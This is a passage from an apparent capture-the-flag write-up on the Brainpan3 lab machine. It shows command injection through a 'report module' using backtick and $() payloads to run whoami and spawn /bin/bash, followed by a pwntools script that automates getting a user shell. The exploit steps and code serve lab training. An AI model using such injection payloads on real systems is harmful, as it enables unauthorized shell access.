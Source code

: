 ```
$ `whoami >&2`

REPORT [`whoami >&2`4]
SENDING TO REPORT MODULE

anansi
```

Nice! Now the fun part, let's try to get a shell. 

```
ENTER COMMAND: $ 1

ENTER REPORT, END WITH NEW LINE:

`/bin/bash -i >&2`

REPORT [`/bin/bash -i >&2`]
SENDING TO REPORT MODULE

bash: cannot set terminal process group (5677): Inappropriate ioctl for device
bash: no job control in this shell
anansi@brainpan3:/$ whoami
anansi
anansi@brainpan3:/$ uname -a
Linux brainpan3 3.16.0-41-generic #55~14.04.1-Ubuntu SMP Sun Jun 14 18:44:35 UTC 2015 i686 i686 i686 GNU/Linux
anansi@brainpan3:/$  
```

And we have a user shell! As normal, let's modify our exploit script to retrieve a shell for us automagically:

```python
###
# Get user shell
###

# Just a bit of fun to check that we have a shell
for command in ['uname -a', 'whoami', 'id']:
    r.clean()
    r.sendline('1')
    r.sendline('$({} >&2)'.format(command))

    r.recvuntil("SENDING TO REPORT MODULE")
    output = r.recvuntil('[+]').split('\n')[2]
    log.success("{} - {}".format(command, output))

# Our actual shell payload
r.clean()
r.sendline('1')
r.sendline('$(/bin/bash -i >&2)')

r.interactive()
```
